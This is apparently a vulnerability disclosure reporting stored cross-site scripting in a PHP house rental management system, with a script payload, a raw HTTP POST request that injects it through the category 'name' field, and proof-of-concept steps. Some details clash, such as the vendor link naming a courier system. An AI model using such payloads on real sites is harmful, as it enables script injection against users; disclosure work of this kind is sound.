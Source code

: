 # Best house rental management system project in php Stored Cross-Site Scripting(XSS) vulnerability

Exploit Title: Best house rental management system project in php Stored Cross-Site Scripting(XSS) vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Accounts Manager App does not filter the content correctly at the "name" parameter, resulting in the generation of stored XSS.

#### Payload used:

> <script>alert("a")</script>

```plaintext
POST /ajax.php?action=save_category HTTP/1.1
Host: 192.168.56.128:8080
Content-Type: multipart/form-data; boundary=---------------------------217335298739291867533794032394
Origin: http://192.168.56.128:8080
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
X-Requested-With: XMLHttpRequest
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.128:8080/index.php?page=categories
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Content-Length: 308

-----------------------------217335298739291867533794032394
Content-Disposition: form-data; name="id"


-----------------------------217335298739291867533794032394
Content-Disposition: form-data; name="name"

<script>alert("a")</script>
-----------------------------217335298739291867533794032394--
```

#### Proof of Concept

1. Visit the home page and enter payload in the username input box. Enter any value for password.

​![image](assets/image-20240919110945-fk1s1p5.png)​

‍

2.After the successful addition, redirecting to the management page will trigger the XSS pop-up window.

​![image](assets/image-20240919111250-o6ct0t1.png)​

Similarly, by sending a post request, you will see the script code stored in the management page.

​![image](assets/image-20240919111332-tui35nz.png)​

​![image](assets/image-20240919111512-n00e91k.png)​

‍

‍

‍
